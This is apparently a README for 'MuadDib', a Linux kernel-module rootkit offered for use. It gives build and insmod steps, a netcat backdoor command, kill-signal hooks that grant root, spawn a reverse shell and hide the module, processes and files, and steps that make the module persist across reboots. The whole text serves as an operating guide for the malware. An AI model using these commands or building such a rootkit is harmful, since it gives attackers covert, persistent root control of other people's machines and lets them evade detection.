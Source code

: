 # MuadDib
Linux Kernel Module (LKM) Rootkit that works with linux kernel versions 5.13 and (hopefully) below.

## Installation
Just run the Makefile and insert the module.
```
make
insmod muadDib.ko
```
## Usage
### Accept Backdoor
To remotely get a shell, send a request from a specified source port (default 1337)
```
nc xxx.xxx.xxx.xxx 22 -p 1337
```
### Get root
When on the machine, root can be acquired via kill hook
```
kill -64 9999
```
Any PID works
### Spawn reverse shell
Also works using kill hook
```
kill -42 9999
```
### Hide muadDib LKM
Again, using kill
```
kill -63 9999
```
When hidden, running ```kill -62 9999''' will show it
### Hide Process
```
kill -44 [PID to hide]
```
### Hide and Protect files
All files containing PREFIX [default MUADDIB] are hidden and cannot be deleted. 
### Misc
There is also a mkdir and execve hook just as a POC, have not found a use yet.

### Persistence
Copy muadDib.ko to /lib/modules/$(uname -r)/kernel/drivers/ 
echo muadDib to /etc/modules
sudo depmod 

## Tested on
Ubuntu 20.04.1 x86_64 Linux 5.13.0

## Resources/References:
	https://xcellerator.github.io/
	https://github.com/xcellerator/linux_kernel_hacking
	https://github.com/ilammy/ftrace-hook
	https://github.com/h3xduck/Umbra
